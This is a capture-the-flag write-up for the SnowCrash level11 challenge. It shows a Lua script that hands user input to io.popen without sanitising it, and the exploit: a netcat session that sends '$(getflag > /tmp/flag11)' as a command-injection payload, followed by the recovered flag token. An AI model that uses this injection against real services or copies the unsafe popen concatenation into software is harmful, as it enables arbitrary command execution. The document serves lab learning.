 # Flag 11

In level11 home directory we have a lua script after running it we got the error:

```
level11@SnowCrash:~$ ./level11.lua 
lua: ./level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	./level11.lua:3: in main chunk
	[C]: ?
```
it means that probably the script is already running in backround.
the script listening on the `127.0.0.1` local ip port `5151`
```
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
The script main functionality is not useful at all.
we need just to exploit the popen function that execute a command.
so we send our getflag command in the password promt after connecting to the host with port 5151 with netcat.
and we got our flag (so easy !) 🙃.
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: $(getflag > /tmp/flag11)
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag11
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

```